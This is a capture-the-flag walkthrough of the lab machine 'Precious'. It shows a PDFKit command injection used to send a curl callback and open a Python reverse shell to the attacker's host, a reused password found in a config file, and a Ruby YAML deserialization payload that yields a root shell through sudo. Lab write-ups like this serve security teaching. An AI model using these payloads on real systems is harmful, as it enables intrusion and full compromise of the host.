




Precious Writeup

Solved in Release Arena
User Owning
After performing an Nmap scan on the machine, we can see that the machine is running SSH (OpenSSH) on it’s standard port 22, and that there is an Nginx web-server running on it’s standard port 80.
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEAPxqUubE88njHItE+mjeWJXOLu5reIBmQHCYh2ETYO5zatgel+LjcYdgaa4KLFyw8CfDbRL9swlmGTaf4iUbao4jD73HV9/Vrnby7zP04OH3U/wVbAKbPJrjnva/czuuV6uNz4SVA3qk0bp6wOrxQFzCn5OvY3FTcceH1jrjrJmUKpGZJBZZO6cp0HkZWs/eQi8F7anVoMDKiiuP0VX28q/yR1AFB4vR5ej8iV/X73z3GOs3ZckQMhOiBmu1FF77c7VW1zqln480/AbvHJDULtRdZ5xrYH1nFynnPi6+VU/PIfVMpHbYu7t0mEFeI5HxMPNUvtYRRDC14jEtH6RpZxd7PhwYiBctiybZbonM5UP0lP85OuMMPcSMll65+8hzMMY2aejjHTYqgzd7M6HxcEMrJW7n7s5eCJqMoUXkL8RSBEQSmMUV8iWzHW0XkVUfYT5Ko6Xsnb+DiiLvFNUlFwO6hWz2WG8rlZ3voQ/gv8BLVCU1ziaVGerd61PODck=
| 256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFScv6lLa14Uczimjt1W7qyH6OvXIyJGrznL1JXzgVFdABwi/oWWxUzEvwP5OMki1SW9QKX7kKVznWgFNOp815Y=
| 256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH+JGiTFGOgn/iJUoLhZeybUvKeADIlm0fHnP/oZ66Qb
80/tcp open http syn-ack nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-server-header:
| nginx/1.18.0
|_ nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Final times for host: srtt: 39751 rttvar: 13773 to: 100000
Going to the website running on port 80, we are greeted with the following:
It seems like the way this site will send a request to a specified URL and convert the response into a PDF. Let’s test it out by running a dummy web-server locally with an HTML file.
We make a folder called web-server and inside this directory we create a dummy HTML file index.html:
<!DOCTYPE html>
<html>
<head></head>
<body>
<h1>Hello World</h1>
</body>
</html>
We then start the web-server simply by running python3 -m http.server. This will start a web-server on port 8000. You must make sure that you are inside the web-server directory.
Enter the URL http://<YOUR LOCAL IP>:8000 in the input field on the website and you will be asked to download a PDF containing your rendered HTML.
Using exiftool, we can take a look at the PDF metadata by running the following:
exiftool <FILENAME>
Which returns:
ExifTool Version Number : 12.44
File Name : <FILENAME>.pdf
Directory : .
File Size : 10 kB
File Modification Date/Time : 2023:01:01 19:22:43-05:00
File Access Date/Time : 2023:01:01 19:22:48-05:00
File Inode Change Date/Time : 2023:01:01 19:22:46-05:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Creator : Generated by pdfkit v0.8.6
As we can see, under Creator it says Generated by pdfkit v0.8.6. After doing some research PDFKit is a PDF document generation library for NodeJS.
I began searching for known vulnerabilities in PDFKit and came across this: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
It appears that PDFKit has a Remote Code Execution vulnerability for versions below 0.8.7 which just so happens to coincide with the version of PDFKit ran on the website (0.8.6).
Following what is stated in the report we can test this vulnerability. Firstly, I started listening on port 5000 with Netcat by running nc -nlvp 5000.
I then submit the following in the website’s input field:
http://example.com/?name=#{'%20`curl http://<YOUR LOCAL IP>:5000`'}
After submitting the payload, I received a HTTP request on port 5000 from the machine:
listening on [any] 5000 ...
connect to [<YOUR LOCAL IP>] from (UNKNOWN) [10.10.11.189] 55102
GET / HTTP/1.1
Host: <YOUR LOCAL IP>:5000
User-Agent: curl/7.74.0
Accept: */*
As you can see, we successfully exploited the Remote Code Execution vulnerability.
We now can obtain a shell by using a simple Python3 reverse shell as the payload. I first make sure that I’m listening on port 5000 with Netcat.
Then we submit the following payload:
http://example.com/?name=#{\'%20`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR LOCAL IP>",5000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`\'}
Once the payload was submitted, I got a shell on port 5000.
First thing I notice is that I am the ruby user. There is another user on the machine named henry who owns the user.txt file we are after (we don’t have the permissions to read the file).
We must escalate our privilege to henry. After doing some digging, I find a .cache directory in the ruby user’s home directory. Inside this directory, we find a config file which contains the following:
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
As we can see, we found a password for henry: Q3c1AqGHtoI0aXAYFH.
After trying to log into SSH as henry with this password, I was successful!
I print the contents of the user.txt file and the machine has been user owned!

System Owning
Now that we are logged in as henry.
Using sudo -l, we can see henry’s privileges with using sudo. The command outputs the following:
Matching Defaults entries for henry on precious:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
I can see that I am allowed to run /usr/bin/ruby /opt/update_dependencies.rb as with sudo without providing a password. Lets see if we can exploit this simple Ruby program to escalate your privileges to root.
Here is the source code of the update_dependencies.rb program:
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
gems_local.each do |local_name, local_version|
if(file_name == local_name)
if(file_version != local_version)
puts "Installed version differs from the one specified in file: " + local_name
else
puts "Installed version is equals to the one specified in file: " + local_name
end
end
end
end
This seems to be a simple program used to check if all packages installed on the machine are using the correct versions indicated some arbitrary dependencies.yml file. What is an interesting thing keep in mind is that the program takes a file dependencies.yml as an input.
In the list_from_file function, there is the single line of code YAML.load(File.read("dependencies.yml")) which reads the content of a depencencies.yml file and runs it through a YAML parser.
After doing some research about potential vulnerabilities which can be introduced through YAML, I found something called YAML deserialization vulnerabilities.
The way YAML deserialization vulnerabilities work is quite simple. Let’s take this program for example. This program takes a YAML file as input which gets thrown into a YAML parser via the YAML.load function. An attacker can create a malicious YAML file which will execute arbitrary code upon it being ran through a YAML parser. As a matter of fact, the YAML.load function is known to be vulnerable to YAML deserialization attacks which is why it is recommended to use the YAML.safe_load function instead which is found in the SafeYAML gem.
So now that we have identified the vulnerability in this program, let’s exploit it and get root!
Here is the payload to my malicious dependencies.yml file:
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: bash
method_id: :resolve
Payload was found here.
This payload will essentially execute bash when the YAML file is parsed in the program which will be running as root since I will be running it with sudo.
I put the malicious dependencies.yml file in my current directory and proceed to run (while still in the same directory as the dependencies.yml file):
sudo /usr/bin/ruby /opt/update_dependencies.rb
And boom, we have a root shell!

We can now navigate to the root user’s home directory (/root) and retrieve the contents of the root.txt file.

And boom, System owned!